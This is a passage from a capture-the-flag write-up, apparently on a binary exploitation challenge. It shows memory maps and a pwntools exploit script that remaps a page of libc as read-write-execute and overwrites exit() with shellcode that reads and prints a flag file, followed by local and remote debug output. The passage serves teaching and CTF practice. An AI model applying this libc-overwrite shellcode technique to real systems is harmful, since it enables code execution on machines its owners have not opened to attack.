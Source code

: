 That was from 2013. Surely someone would've patched it by now?
##### Before 2nd `mmap()`
```python
0x00007f9353227000 0x00007f935322a000 0x0000000000000000 rw-
0x00007f935322a000 0x00007f935324f000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f935324f000 0x00007f93533c7000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
```
##### After `mmap(libc, 0x1000, PROT_RWX, MAP_(PRIVATE|FIXED|ANONYMOUS), 0, 0)`
```python
0x00007f935322a000 0x00007f935322b000 0x0000000000000000 rwx
0x00007f935322b000 0x00007f935324f000 0x0000000000001000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f935324f000 0x00007f93533c7000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
```
_It's free real estate._

What we need to do now is to locate a section of libc that we can reallocate without busting the system immediately, while also working to execute the code we need to win.

I'll start by trying `exit()`, if only because it's a simple option to manipulate.<sup>4</sup>

```python
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc_offset = context.libc.symbols['exit']&0xfffff000
libc = file_mmap-0x27e000   # empirical for local
#libc+= 9*0x1000    # empirical for remote
create(addr=libc+libc_offset, length=0x1000, prot=7, flags=0x32)
# start of payload will be identical to the original contents of libc
payload = context.libc.get_data()[libc_offset:context.libc.symbols['exit']]
# exit() to be replaced with shellcode that will print flag with current seccomp filters in mind
payload+= asm(shellcraft.open(b'flag.txt') + shellcraft.readn(4, file_mmap, 10) + shellcraft.write(1, file_mmap, 20) + shellcraft.ret())
read(len(payload), payload)
r.sendlineafter('choice = ', '4')
r.interactive()
```
What we're doing here is:
 * Allocating the smallest possible page size that will override `exit()`
 * writing the original contents of libc back before `exit()` to ensure that there's as little crashing as possible,
 * **Replace exit() with shellcode for printing a flag**
 * run `exit()` to get the flag

This works locally (after creating a fake `flag.txt`):
```python
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'TEST{flag}tialized.\n'
TEST{flag}tialized.
[*] Got EOF while reading in interactive
```
But fails on remote:
```python
[DEBUG] Received 0x9 bytes:
    b'choice = '
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[*] Switching to interactive mode
$
```
`flag` fails as well. Is the shellcode even working on remote?

